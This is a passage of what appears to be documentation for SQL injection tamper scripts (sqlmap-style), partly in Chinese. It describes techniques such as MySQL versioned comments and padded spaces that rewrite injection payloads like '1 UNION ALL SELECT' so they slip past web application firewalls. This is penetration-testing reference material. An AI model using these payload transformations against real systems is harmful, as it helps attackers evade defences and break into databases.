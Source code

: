 Requirement:
* MySQL

Reference
* https://raw.githubusercontent.com/y0unge/Notes/master/SQL%20Injection%20WAF%20Bypassing%20shortcut.pdf

```py
>>> tamper('1 UNION ALL SELECT')
'1-.1UNION ALL SELECT'
>>> tamper('1" UNION ALL SELECT')
'1"-.1UNION ALL SELECT'
```

### modsecurityversioned.py

> Embraces complete query with (MySQL) versioned comment

Requirement:
* MySQL

Tested against:
* MySQL 5.0

```py
>>> import random
>>> random.seed(0)
>>> tamper('1 AND 2>1--')
'1 /*!30963AND 2>1*/--'
```

### modsecurityzeroversioned.py

> Embraces complete query with (MySQL) zero-versioned comment

Requirement:
* MySQL

Tested against:
* MySQL 5.0

```py
>>> tamper('1 AND 2>1--')
'1 /*!00000AND 2>1*/--'
```

### multiplespaces.py

> Adds multiple spaces (' ') around SQL keywords

在sql关键字周围添加多个空格

Reference
* https://www.owasp.org/images/7/74/Advanced_SQL_Injection.ppt

```py
>>> random.seed(0)
>>> tamper('1 UNION SELECT foobar')
'1     UNION     SELECT     foobar'
```

